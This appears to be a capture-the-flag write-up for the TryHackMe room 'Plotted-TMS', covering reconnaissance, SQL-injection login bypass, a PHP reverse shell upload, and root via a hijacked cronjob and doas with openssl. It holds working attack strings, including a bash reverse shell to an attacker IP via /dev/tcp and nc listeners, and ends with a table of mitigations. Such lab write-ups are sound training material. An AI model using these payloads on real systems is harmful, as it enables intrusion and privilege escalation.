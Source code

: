 [Plotted-TMS](https://tryhackme.com/room/plottedtms)

**Difficulty:** Easy
**Objective:** Exploit a vulnerable login with SQL injection, gain shell access via file upload, escalate privileges through a writable cronjob, and read root flag using OpenSSL and doas.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.212.224  
**Service/Ports:** 22/SSH, 80/HTTP, 445/HTTP  
**Entry Point:** SQL injection on port 445 `/management` login  
**Privilege Escalation:** Writable cronjob and `doas` misconfiguration  
**Outcome:** Gained shell access as `plot_admin`, read root flag using OpenSSL

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance  
Nmap scan:  
nmap -sS -sV 10.10.212.224  
Results:  
- 22/tcp - OpenSSH 8.2p1  
- 80/tcp - Apache 2.4.41  
- 445/tcp - Apache 2.4.41

---

## 4. Enumeration  
Gobuster on port 80:  
Found: /admin, /shadow, /passwd — none useful  

Gobuster on port 445:  
Found: /management  
Navigated to http://10.10.212.224:445/management and found a login page  
Used SQL injection: `' OR '1'='1' --`  
Successfully bypassed login

---

## 5. Exploitation  
Page allowed file uploads  
Uploaded a PHP reverse shell from PentestMonkey  
Started listener: nc -lvnp 4000  
Triggered the shell, gained access as www-data  
Spawned TTY shell:  
python3 -c 'import pty; pty.spawn("/bin/bash")'

---

## 6. Privilege Escalation  
Ran LinPEAS, found a cronjob running:  
* * * * * plot_admin /var/www/scripts/backup.sh  
Could not edit the file, but owned the `/var/www/scripts` directory  
Removed and replaced the script:  
rm /var/www/scripts/backup.sh  
echo '#!/bin/bash' > /var/www/scripts/backup.sh  
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.21.***.***/4444 0>&1"' >> /var/www/scripts/backup.sh  
chmod +x /var/www/scripts/backup.sh  
Started listener: nc -lvnp 4444  
Got reverse shell as plot_admin  
Found user flag with `ls` and `less`

---

## 7. Post Exploitation  
Ran LinPEAS again and discovered a `doas` misconfiguration:  
permit nopass plot_admin as root cmd openssl  
Used GTFOBins for OpenSSL:  
LFILE=/root/root.txt  
doas -u root openssl enc -in "$LFILE"  
Successfully read the root flag

---

## 8. Flags / Proof  
User Flag: Retrieved as plot_admin from user directory  

Root Flag: Retrieved from /root/root.txt using OpenSSL and doas

---

## 9. Mitigations  
| Vulnerability                     | Risk   | Suggested Mitigation                              |  
|----------------------------------|--------|---------------------------------------------------|  
| SQL Injection                    | High   | Use prepared statements / parameterized queries   |  
| Arbitrary file upload            | High   | Restrict file types and enforce validation        |  
| Writable cronjob directory       | High   | Limit directory permissions and audit cron setup  |  
| doas misconfiguration            | High   | Limit doas privileges and review config (doas.conf) |

---

## 10. Notes  
Time spent: ~5 hours  

Tools used: nmap, gobuster, Burp Suite, pentestmonkey reverse shell, linpeas, nc  

Lessons learned: Always test all HTTP ports, SQL injection is still relevant, cronjob ownership can lead to root, and misconfigured doas with OpenSSL can be exploited to read protected files.
